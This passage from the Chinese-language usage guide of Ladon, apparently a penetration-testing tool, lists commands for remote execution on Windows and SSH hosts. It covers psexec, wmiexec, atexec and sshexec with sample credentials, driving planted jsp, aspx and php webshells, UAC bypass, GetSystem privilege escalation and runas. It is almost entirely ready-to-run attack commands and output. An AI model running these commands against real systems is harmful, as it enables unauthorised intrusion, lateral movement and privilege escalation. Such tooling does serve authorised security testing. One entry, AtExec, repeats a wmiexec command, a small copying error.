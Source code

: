 ##### 057 运行时版本&编译环境 	
Ladon Ver
Ladon Version

### 远程执行(psexec/wmiexec/atexec/sshexec)

##### 445端口 PSEXEC远程执行命令（交互式）

net user \\192.168.1.8 k8gege520 /user:k8gege
Ladon psexec 192.168.1.8
psexec> whoami
nt authority\system

##### 058 135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##### 059 445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##### 060 22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami
Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami

##### 061 JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd
Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

#### 062 WebShell远程执行命令（非交互式）
```Bash
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
```

### 提权降权

##### 063 BypassUac 绕过UAC执行,支持Win7-Win10 	
Ladon BypassUac c:\1.exe
Ladon BypassUac c:\1.bat

##### 064 GetSystem 提权或降权运行程序 	
Ladon GetSystem cmd.exe
Ladon GetSystem cmd.exe explorer

##### 065 Runas 模拟用户执行命令 	
Ladon Runas user pass cmd

### 其它功能

##### 066 一键启用.net 3.5	
Ladon EnableDotNet
